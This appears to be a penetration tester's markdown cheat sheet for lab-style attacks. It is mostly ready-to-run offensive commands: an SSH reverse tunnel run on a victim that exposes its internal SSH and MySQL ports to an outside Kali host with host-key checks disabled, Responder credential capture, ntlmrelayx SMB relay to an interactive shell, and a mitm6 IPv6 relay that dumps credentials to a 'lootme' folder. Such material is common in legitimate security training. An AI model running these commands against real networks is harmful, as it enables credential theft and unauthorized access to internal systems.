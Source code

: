 `from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa <id_rsa.pub result>`  #Placed in kali known_hosts/authorized_keys file

`ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/thunda/id_rsa kali@192.168.119.209`  #CMD ran in victim for port fwd

`mysql --host=127.0.0.1 --port=13306 --user=wp -p`  #Connection using port forward




# **Active Directory**

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md

## LLMNR/NBT-NS
```
responder -I eth0 -rdwv #Credential default capture settings
```

##  SMB Relay Attack
```
python3 /home/kali/.local/bin/ntlmrelayx.py -tf targets.txt -smb2support #Capture creds via SMB (Signing must be 'disabled/not required')

python3 /home/kali/.local/bin/ntlmrelayx.py -tf targets.txt -smb2support -i # Gain a interactive shell with "-i"
```

## IPv6 Attack
```
https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/

sudo mitm6 -d marvel.local #Run mitm6 first to IPv6 server

python3 /home/kali/.local/bin/ntlmrelayx.py -6 -t ldaps://192.168.68.122 -wh fakewpad.marvel.local -l lootme # Captures IPv6 request to capture & dump creds to lootme
```

## AD Recon

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#active-directory-attacks

https://github.com/61106960/adPEAS #asPeas for enumeration scripting

### PowerView
```
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993 # Cheat Sheet
```
